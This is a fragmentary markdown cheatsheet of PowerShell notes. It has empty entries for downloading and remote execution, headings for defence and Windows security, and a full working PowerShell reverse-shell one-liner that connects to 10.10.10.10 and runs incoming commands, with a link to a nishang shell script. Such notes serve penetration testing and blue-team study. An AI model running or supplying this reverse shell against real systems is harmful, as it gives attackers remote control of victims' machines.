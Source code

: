 ### Common commands cheatsheet
- Download a file - 
- Execute powershell code from URL -
- Powershell reverse shells - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1, ```$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```
- 
# Important notes
- WMIC will be depricated, Miscorosft is suggesting to stick witk powershell
- SANS course material  -  https://blueteampowershell.com

# Powershell for Defense

# Windows security
MITRE's ATT&CK Matrix for Windows
